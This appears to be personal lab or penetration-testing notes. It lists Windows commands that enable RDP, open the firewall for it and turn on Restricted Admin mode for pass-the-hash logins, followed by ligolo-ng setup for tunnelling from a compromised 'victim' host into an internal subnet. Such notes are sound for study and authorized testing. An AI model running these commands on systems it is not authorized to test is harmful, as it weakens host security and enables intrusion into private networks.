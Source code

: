 Enable RDP
```
shell reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

shell netsh advfirewall firewall set rule group="remote desktop" new enable=Yes




shell reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

# ligolo - https://github.com/nicocha30/ligolo-ng

## Compiling
- Use the CGO_ENABLED=0 flag when building because of issues with glibc

Public network: 192.168.211.x
Internal Network: 172.16.211.x
## On Kali:
- sudo ip tuntap add user kali mode tun ligolo
- sudo ip link set ligolo up
- sudo ./proxy -selfcert

## On victim [linux]: 
- ./agent -connect 192.168.45.195:11601 -ignore-cert

## On Kali:
- sudo ip route add 172.16.211.0/24 dev ligolo


